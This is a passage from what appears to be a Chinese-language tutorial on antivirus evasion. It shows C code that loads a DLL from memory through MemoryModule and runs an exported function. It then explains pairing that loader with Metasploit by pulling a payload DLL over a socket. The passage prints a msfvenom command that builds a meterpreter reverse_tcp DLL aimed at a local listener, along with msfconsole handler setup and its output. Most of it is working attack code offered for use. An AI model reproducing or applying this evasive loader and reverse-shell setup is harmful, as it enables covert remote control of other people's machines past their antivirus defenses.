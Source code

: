 ```c
	}
	// 关闭打开PE文件的句柄
	CloseHandle(hBadCodeDll);
	// 导入PE文件
	hModule = MemoryLoadLibrary(bFileBuffer);
	// 如果加载失败，就退出
	if(hModule == NULL){
		delete [] bFileBuffer;
		return -1;
	}
	// 获取msg导出函数地址
	RunMsg = (msg)MemoryGetProcAddress(hModule,"msg");
	// 运行msg函数
	RunMsg();
	// 释放资源
	MemoryFreeLibrary(hModule);
	// 释放PE内存
	delete [] bFileBuffer;

	return GetLastError();
}
```


运行结果：

![2020-01-03-13-06-52](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/5f2ba95d5fb5ab00b0a23a48aea60935.png)

能够看到，成功加载并执行了msg函数。


## 0x03 反射DLL与MSF联动

不知道大家还是否记得第五课的Socket方式加载Shellcode，这里我将复用第五课的代码来实现与MSF的联动免杀。

思路是这样的：

通过Socket将Msf生成的DLL给接收到内存中，然后载入MemoryModule中，直接执行。

### 生成DLL


```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.170.138 LPORT=8899 -f dll -o ~/y.dll
```

![2020-01-03-13-07-02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/69f793d120060c0a0f2633ca7b9724fe.png)

**生成了一个5120字节的DLL**

然后设置一下MSF DLL发射器：

```
msf5 > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.170.138 -P 8899
[*] Payload handler running as background job 0.

[*] Started reverse TCP handler on 192.168.170.138:8899 
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/patchupdllinject/reverse_tcp
payload => windows/patchupdllinject/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.170.138 
LHOST => 192.168.170.138
msf5 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
msf5 exploit(multi/handler) > set DLL ~/y.dll
DLL => ~/y.dll
msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
```